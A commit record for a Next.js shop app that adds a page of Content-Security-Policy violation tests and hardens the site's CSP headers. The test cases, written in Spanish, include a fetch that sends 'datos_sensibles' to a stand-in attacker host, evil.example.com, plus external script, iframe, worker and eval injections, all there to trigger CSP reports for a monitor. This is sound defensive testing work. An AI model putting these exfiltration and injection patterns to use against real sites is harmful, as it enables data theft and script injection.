

Before and after one commit to gm-mdavila/gm-davila.github.io, a Next.js app: page /csp-tests in a window 1280 px wide. Before the commit this address had no page. Shown: the top 800 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Implement CSP violation test cases and enhance CSP configuration; update Header component for navigation and style adjustments

```diff
--- a/app/components/Header.js
+++ b/app/components/Header.js
@@ -1,13 +1,20 @@
+import Link from "next/link";
+
 export default function Header({ cartCount, openCart }) {
 	return (
 		<header>
-			<div className="logo">
+			<Link href="/" className="logo" style={{ textDecoration: "none", color: "inherit" }}>
 				<i className="fas fa-shopping-bag icon-spacing-lg"></i>
 				Simple<span>Shop</span>
-			</div>
-			<div className="cart-icon" onClick={openCart}>
-				<i className="fas fa-shopping-cart"></i>
-				{cartCount > 0 && <span className="cart-count">{cartCount}</span>}
+			</Link>
+			<div style={{ display: "flex", alignItems: "center", gap: "16px" }}>
+				<Link href="/csp-tests" className="csp-tests-nav-link" style={{ fontSize: "14px", color: "#0984e3", textDecoration: "none" }}>
+					<i className="fas fa-shield-alt"></i> CSP Tests
+				</Link>
+				<div className="cart-icon" onClick={openCart}>
+					<i className="fas fa-shopping-cart"></i>
+					{cartCount > 0 && <span className="cart-count">{cartCount}</span>}
+				</div>
 			</div>
 		</header>
 	);
--- /dev/null
+++ b/app/csp-tests/page.js
@@ -0,0 +1,201 @@
+"use client";
+
+import { useState } from "react";
+import Link from "next/link";
+
+const DOMINIO_NO_AUTORIZADO = "https://evil.example.com";
+
+const CASOS = [
+	{
+		id: "xss-externo",
+		title: "XSS (Script externo)",
+		desc: "Prueba la carga de scripts desde dominios no autorizados.",
+		run: () => {
+			const script = document.createElement("script");
+			script.src = `${DOMINIO_NO_AUTORIZADO}/malicious.js`;
+			document.body.appendChild(script);
+		},
+	},
+	{
+		id: "xss-inline",
+		title: "XSS (Script inline)",
+		desc: "Prueba la ejecución de scripts inline sin nonce.",
+		run: () => {
+			const script = document.createElement("script");
+			script.textContent = "window.__csp_inline_test = true;";
+			document.body.appendChild(script);
+		},
+	},
+	{
+		id: "exfiltracion",
+		title: "Exfiltración de datos",
+		desc: "Prueba intentos de conexión a dominios externos no autorizados.",
+		run: () => {
+			fetch(`${DOMINIO_NO_AUTORIZADO}/exfiltrar?d=${encodeURIComponent("datos_sensibles")}`).catch(() => {});
+		},
+	},
+	{
+		id: "eval",
+		title: "Uso de eval()",
+		desc: "Prueba el uso de eval() cuando no está permitido.",
+		run: () => {
+			eval("1+1");
+		},
+	},
+	{
+		id: "estilo-malicioso",
+		title: "Inyección de estilo malicioso",
+		desc: "Prueba la carga de estilos desde dominios no autorizados.",
+		run: () => {
+			const link = document.createElement("link");
+			link.rel = "stylesheet";
+			link.href = `${DOMINIO_NO_AUTORIZADO}/malicious.css`;
+			document.head.appendChild(link);
+		},
+	},
+	{
+		id: "iframe-malicioso",
+		title: "Iframe malicioso",
+		desc: "Prueba la carga de iframes desde dominios no autorizados.",
+		run: () => {
+			const iframe = document.createElement("iframe");
+			iframe.src = DOMINIO_NO_AUTORIZADO;
+			iframe.style.cssText = "width:1px;height:1px;border:0;position:absolute;left:-9999px;";
+			document.body.appendChild(iframe);
+		},
+	},
+	{
+		id: "xss-data-url",
+		title: "XSS basado en URLs data",
+		desc: "Prueba el uso de data: URLs para evitar restricciones.",
+		run: () => {
+			const script = document.createElement("script");
+			script.src = "data:text/javascript,window.__csp_data_url_test=1";
+			document.body.appendChild(script);
+		},
+	},
+	{
+		id: "worker-malicioso",
+		title: "Worker malicioso",
+		desc: "Prueba la carga de web workers desde dominios no autorizados.",
+		run: () => {
+			// Intencional: el Worker se instancia solo para disparar la violación CSP (worker-src)
+			void new Worker(`${DOMINIO_NO_AUTORIZADO}/worker.js`);
+		},
+	},
+	{
+		id: "nonce-invalido",
+		title: "Nonce o hash inválidos",
+		desc: "Prueba la validez de los nonces o hashes utilizados en la política CSP.",
+		run: () => {
+			const script = document.createElement("script");
+			script.setAttribute("nonce", "nonce-invalido-12345");
+			script.textContent = "window.__csp_nonce_test = true;";
+			document.body.appendChild(script);
+		},
+	},
+	{
+		id: "mime-type",
+		title: "Manejo incorrecto de MIME-type (Working on it)",
+		desc: "Prueba el uso de recursos con tipo MIME incorrecto.",
+		run: () => {
+			const script = document.createElement("script");
+			script.src = "data:text/plain;base64,d2luZG93Ll9fY3NwX21pbWVfdGVzdD0x";
+			script.type = "text/javascript";
+			document.body.appendChild(script);
+		},
+	},
+	{
+		id: "clickjacking",
+		title: "Clickjacking (Working on it)",
+		desc: "Prueba la carga de frame ancestors.",
+		run: () => {
+			// El test de clickjacking se vería cuando esta página se carga dentro de un iframe
+			// en un dominio no permitido por frame-ancestors. Aquí simulamos intentar abrir
+			// en un contexto de frame no permitido (el reporte se genera al cargar esta app en iframe externo).
+			// Mostramos mensaje informativo.
+			const msg = document.createElement("p");
+			msg.className = "csp-test-info";
+			msg.textContent = "Para probar clickjacking: incrusta esta URL en un iframe desde otro origen. frame-ancestors bloqueará y generará el reporte CSP.";
+			msg.style.cssText = "margin-top:8px;padding:8px;background:#fff3cd;border-radius:6px;font-size:14px;";
+			const card = document.querySelector(`[data-test-id="clickjacking"]`);
+			if (card) card.appendChild(msg);
+		},
+	},
+];
+
+export default function CSPTestsPage() {
+	const [resultado, setResultado] = useState(null);
+	const [ejecutando, setEjecutando] = useState(null);
+
+	const ejecutar = (caso) => {
+		setEjecutando(caso.id);
+		setResultado(null);
+		try {
+			caso.run();
+			setResultado({
+				ok: true,
+				texto: `Escenario "${caso.title}" ejecutado. Si la CSP lo bloquea, se enviará un reporte al monitor.`,
+			});
+		} catch (e) {
+			setResultado({
+				ok: false,
+				texto: `Error: ${e.message}`,
+			});
+		}
+		setTimeout(() => setEjecutando(null), 800);
+	};
+
+	return (
+		<div className="container">
+			<header style={{ marginBottom: "24px" }}>
+				<Link href="/" className="logo" style={{ textDecoration: "none", color: "inherit" }}>
+					<i className="fas fa-shopping-bag icon-spacing-lg"></i>
+					Simple<span>Shop</span>
+				</Link>
+				<Link href="/" className="csp-back-link">
+					<i className="fas fa-arrow-left"></i> Volver a la tienda
+				</Link>
+			</header>
+
+			<main className="csp-tests-main">
+				<section className="csp-tests-hero">
+					<h1>CSP Violation Test Cases</h1>
+					<p className="csp-tests-intro">Selecciona uno de los siguientes escenarios para generar reportes CSP específicos:</p>
+				</section>
+
+				<div className="csp-tests-grid">
+					{CASOS.map((caso) => (
+						<div key={caso.id} className="csp-test-card" data-test-id={caso.id}>
+							<div className="csp-test-number">{CASOS.indexOf(caso) + 1}</div>
+							<h3 className="csp-test-title">{caso.title}</h3>
+							<p className="csp-test-desc">{caso.desc}</p>
+							<button type="button" className="csp-test-btn" onClick={() => ejecutar(caso)} disabled={ejecutando === caso.id}>
+								{ejecutando === caso.id ? (
+									<>
+										<i className="fas fa-spinner fa-spin"></i> Ejecutando...
+									</>
+								) : (
+									<>
+										<i className="fas fa-play"></i> Generar reporte CSP
+									</>
+								)}
+							</button>
+						</div>
+					))}
+				</div>
+
+				{resultado && (
+					<div className={`csp-result ${resultado.ok ? "csp-result-ok" : "csp-result-error"}`}>
+						{resultado.ok ? <i className="fas fa-check-circle"></i> : <i className="fas fa-exclamation-triangle"></i>}
+						<span>{resultado.texto}</span>
+					</div>
+				)}
+			</main>
+
+			<footer style={{ marginTop: "40px", paddingTop: "20px", borderTop: "1px solid #eaeaea", color: "#636e72", fontSize: "14px" }}>
+				<p>© 2026 SimpleShop. Casos de prueba CSP para Firstoken Monitor.</p>
+			</footer>
+		</div>
+	);
+}
--- a/next.config.js
+++ b/next.config.js
@@ -11,28 +11,26 @@ const nextConfig = {
 		],
 	},
 
-	// ADD THIS SECTION for CSP headers
+	// CSP headers – nivel de endurecimiento vía env:
+	// CSP_STRICT=true  → política estricta (sin unsafe-inline/unsafe-eval; los tests CSP disparan reportes; la app puede fallar sin nonces).
+	// Por defecto: política endurecida sin 'unsafe-eval'; con 'unsafe-inline' para que Next siga funcionando.
 	async headers() {
 		const token = generateToken();
+		const strict = process.env.CSP_STRICT === "true";
 
-		// Create CSP policy - must allow your external resources!
-		//     const csp = `
-		//   default-src 'self';
-		//   script-src 'self' 'unsafe-inline' 'unsafe-eval';
-		//   style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://cdnjs.cloudflare.com;
-		//   img-src 'self' data: https://images.unsplash.com https:;
-		//   font-src 'self' data: https://fonts.gstatic.com https://cdnjs.cloudflare.com;
-		//   connect-src 'self' ws://localhost:3003 ws://localhost:3000;
-		//   frame-ancestors 'self';
-		//   frame-src 'self';
-		//   child-src 'self';
-		//   worker-src 'none';
-		//   report-uri /api/csp-report?t=${token}
-		// `.replace(/\s+/g, ' ').trim();
+		const reportUri = `report-uri https://monitor.firstoken-staging.co/v1/pages/10CBFDEB26?t=${token}`;
 
-		// Next.js requiere 'unsafe-inline' en script-src y style-src para hidratación y estilos
-		const csp = `default-src 'self'; ` + `script-src 'self' 'unsafe-inline' 'unsafe-eval' https://captures.firstoken.co https://api.firstoken.co; ` + `style-src 'self' 'unsafe-inline' https://cdnjs.cloudflare.com https://fonts.googleapis.com; ` + `img-src 'self' data: https://images.unsplash.com; ` + `connect-src 'self' https://api.firstoken.co; ` + `font-src 'self' data: https://fonts.gstatic.com https://cdnjs.cloudflare.com; ` + `object-src 'none'; ` + `base-uri 'self'; ` + `form-action 'self'; ` + `frame-ancestors 'self'; ` + `frame-src https://captures.firstoken.co; ` + `child-src 'self'; ` + `worker-src 'none'; ` + `report-uri https://monitor.firstoken-staging.co/v1/pages/10CBFDEB26?t=${token}`;
+		// Política endurecida: sin unsafe-eval. script-src mantiene 'unsafe-inline' para hidratación de Next.js.
+		const scriptSrcRelaxed = "script-src 'self' 'unsafe-inline' https://captures.firstoken.co https://api.firstoken.co; ";
+		// Política estricta: sin unsafe-inline ni unsafe-eval (útil para probar reportes CSP; la app puede romperse sin nonces).
+		const scriptSrcStrict = "script-src 'self' https://captures.firstoken.co https://api.firstoken.co; ";
 
+		const scriptSrc = strict ? scriptSrcStrict : scriptSrcRelaxed;
+		const styleSrc = strict ? "style-src 'self' https://cdnjs.cloudflare.com https://fonts.googleapis.com; " : "style-src 'self' 'unsafe-inline' https://cdnjs.cloudflare.com https://fonts.googleapis.com; ";
+
+		const csp = "default-src 'self'; " + scriptSrc + styleSrc + "img-src 'self' data: https://images.unsplash.com; " + "connect-src 'self' https://api.firstoken.co; " + "font-src 'self' data: https://fonts.gstatic.com https://cdnjs.cloudflare.com; " + "object-src 'none'; " + "base-uri 'self'; " + "form-action 'self'; " + "frame-ancestors 'self'; " + "frame-src https://captures.firstoken.co; " + "child-src 'self'; " + "worker-src 'none'; " + reportUri;
+
+		// Para política estricta (y que los tests en /csp-tests disparen más reportes): CSP_STRICT=true npm run dev
 		return [
 			{
 				// Apply to ALL routes
--- a/styles/global.css
+++ b/styles/global.css
@@ -666,3 +666,147 @@ footer {
 		width: 95%;
 	}
 }
+
+/* ========== CSP Violation Test Cases ========== */
+.csp-tests-main {
+	min-height: 60vh;
+}
+
+.csp-tests-hero {
+	text-align: center;
+	margin-bottom: 32px;
+	padding: 24px 16px;
+	background: linear-gradient(135deg, #2d3436 0%, #0984e3 100%);
+	color: white;
+	border-radius: 12px;
+}
+
+.csp-tests-hero h1 {
+	font-size: 28px;
+	margin-bottom: 12px;
+}
+
+.csp-tests-intro {
+	font-size: 16px;
+	opacity: 0.95;
+	max-width: 560px;
+	margin: 0 auto;
+}
+
+.csp-tests-grid {
+	display: grid;
+	grid-template-columns: repeat(auto-fill, minmax(320px, 1fr));
+	gap: 20px;
+	margin-bottom: 24px;
+}
+
+.csp-test-card {
+	background: white;
+	border-radius: 12px;
+	padding: 20px;
+	box-shadow: 0 4px 14px rgba(0, 0, 0, 0.08);
+	border: 1px solid #eaeaea;
+	position: relative;
+}
+
+.csp-test-number {
+	position: absolute;
+	top: 12px;
+	right: 12px;
+	width: 28px;
+	height: 28px;
+	background: #0984e3;
+	color: white;
+	border-radius: 50%;
+	display: flex;
+	align-items: center;
+	justify-content: center;
+	font-size: 14px;
+	font-weight: 600;
+}
+
+.csp-test-title {
+	font-size: 17px;
+	font-weight: 600;
+	color: #2d3436;
+	margin-bottom: 8px;
+	padding-right: 36px;
+}
+
+.csp-test-desc {
+	font-size: 14px;
+	color: #636e72;
+	line-height: 1.5;
+	margin-bottom: 16px;
+}
+
+.csp-test-btn {
+	width: 100%;
+	padding: 10px 16px;
+	background: #0984e3;
+	color: white;
+	border: none;
+	border-radius: 8px;
+	font-size: 14px;
+	font-weight: 500;
+	cursor: pointer;
+	display: flex;
+	align-items: center;
+	justify-content: center;
+	gap: 8px;
+	transition: background 0.2s;
+}
+
+.csp-test-btn:hover:not(:disabled) {
+	background: #0770c9;
+}
+
+.csp-test-btn:disabled {
+	opacity: 0.8;
+	cursor: not-allowed;
+}
+
+.csp-back-link {
+	display: inline-flex;
+	align-items: center;
+	gap: 8px;
+	color: #0984e3;
+	text-decoration: none;
+	font-size: 14px;
+}
+
+.csp-back-link:hover {
+	text-decoration: underline;
+}
+
+.csp-result {
+	display: flex;
+	align-items: center;
+	gap: 12px;
+	padding: 14px 18px;
+	border-radius: 8px;
+	font-size: 14px;
+	margin-top: 20px;
+}
+
+.csp-result-ok {
+	background: #d4edda;
+	color: #155724;
+	border: 1px solid #c3e6cb;
+}
+
+.csp-result-error {
+	background: #f8d7da;
+	color: #721c24;
+	border: 1px solid #f5c6cb;
+}
+
+.csp-result i {
+	font-size: 18px;
+}
+
+@media (max-width: 600px) {
+	.csp-tests-grid {
+		grid-template-columns: 1fr;
+	}
+}
```
